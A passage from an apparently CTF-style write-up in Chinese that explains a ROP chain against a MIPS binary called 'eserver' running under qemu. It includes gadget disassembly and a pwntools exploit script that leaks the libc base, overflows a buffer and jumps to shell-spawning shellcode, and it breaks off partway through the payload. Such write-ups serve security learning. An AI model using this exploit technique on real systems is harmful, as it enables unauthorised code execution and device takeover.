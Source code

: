 ![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660824539265-5fc528f2-2731-449d-ae0b-d62ec0a2ba65.png)

```python
'''
addiu_a1_sp_24_gadget
# .text:000F60D4                 addiu   $a1, $sp, 24			【$a1 = $sp + 24 = &shellcode】
# .text:000F60D8                 move    $t9, $s3				【$t9 == &jalr_t9_gadget】
# .text:000F60DC                 jalr    $t9					【调用jalr_t9_gadget】
# .text:000F60E0                 li      $a0, 0x1D				
''' 
```

执行后$a1指向shellcode的起始地址，最后执行`jalr_t9_gadget`：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660824729318-c3c0d376-987d-4435-bcce-c478434167e1.png)

```python
'''
jalr_t9_gadget
# .text:0011C68C                 move    $t9, $a1				【$t9 == &shellcode】
# .text:0011C690                 move    $a1, $a0				【$a1 == $a0 == 0x1D】
# .text:0011C694                 jalr    $t9					【执行shellcode】
# .text:0011C698                 move    $a0, $v1				【$v1的值未知，无伤大雅】
'''
```

最后需要让程序退出以触发payload，完整exp如下：

```python
from pwn import *
context.arch = "mips"
context.endian = 'little'
# context.log_level = 'debug'

readOffset_True = 0
libc = ELF("./lib/libc.so.6")
for i in range(3):
    p = process(["qemu-mipsel-static", "-L", ".", "./eserver"])
    p.sendlineafter("Input package: ","Administrator")
    log.info(p.recv())
    sleep(0.1)
    p.sendlineafter("Input package: ",str(i))
    p.recvuntil("Response package: ")
    leak_byte = u8(p.recv(1))
    readOffset_True += (leak_byte << (8*i))
    p.close()
print(hex(readOffset_True))
readOffset_Libc = libc.symbols['read']
libcCodeBase = readOffset_True - readOffset_Libc 
FullLibcCodeBase = 0x7f000000 + libcCodeBase
log.success(hex(FullLibcCodeBase))
# -----------------------------------------------------------
p = process(["qemu-mipsel-static","-L", "./", "./eserver"])

lw_s3_gadget = 0x0A0C7C + FullLibcCodeBase
jalr_t9_gadget = 0x11C68C + FullLibcCodeBase
addiu_a1_sp_24_gadget = 0xF60D4 + FullLibcCodeBase

padding = b"TruE"
shellcode = asm(shellcraft.sh())
payload = b'a'*504							# overflow
payload += b'b'*4							# $fp								
'''
lw_s3_gadget:
# .text:000A0C7C                 lw      $ra, 0x2C+var_s10($sp)
# .text:000A0C80                 lw      $s3, 0x2C+var_sC($sp)
```